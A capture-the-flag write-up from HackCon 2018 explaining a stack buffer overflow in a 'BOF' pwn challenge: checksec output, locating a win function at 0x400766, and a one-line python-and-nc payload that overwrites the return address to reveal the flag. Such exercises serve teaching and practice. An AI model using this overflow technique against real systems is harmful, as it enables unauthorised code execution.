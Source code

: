 ```yaml
---
author: Ringr0p
layout: writeup
tags: [ ctf, zenhack ]
challenge:  BOF
ctf: HackCon'18
date: "2018-08-17"
categories: [pwn]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [vuln](http://ringr0p.github.io/binary/hackcon2018-vuln)
  - Difficulty: Easy

This challenge was the easiest, of the pwn challenges in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary and it says:

```
  Welcome, You know what to do. So go get the flag.

Hello
>>>
```
Obviously, the vulnerability is a buffer overflow, as it's suggested from the challenge's name. Infact, if we look in the code, we can see a <b>gets</b> function. This function is very dangerous, because don't control the lenght of the input, and put him into a limitated buffer.

Before thinking at what we have to do, we have to check the security of the binary. I personally use "checksec" to have an overall picture of the situation, quickly:

```
  Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segment
```

Opening the target binary with Radare2, we can also see that at 0x400766 there's a function <b>CallMeMaybe()</b> that open a file "vulnflag.txt". Than our objective is to overwrite the return address of the main() function, with the CallMeMaybe function.

This is easy because the binary is not PIE, and there are no canary on the stack.

Then the exploit is simple and that's the flag:

```code
python -c 'print ("a"*40 + "\x66\x07\x40\x00\x00\x00")' | nc 139.59.30.165 8700
```

![placeholder](/images/writeups/HackCon2018/bof/flag.jpg)

N.B: I had to pack the CallMeMaybe() address to 64 bit address, because it was an ELF64 binary! Using only 32 bit address didn't work
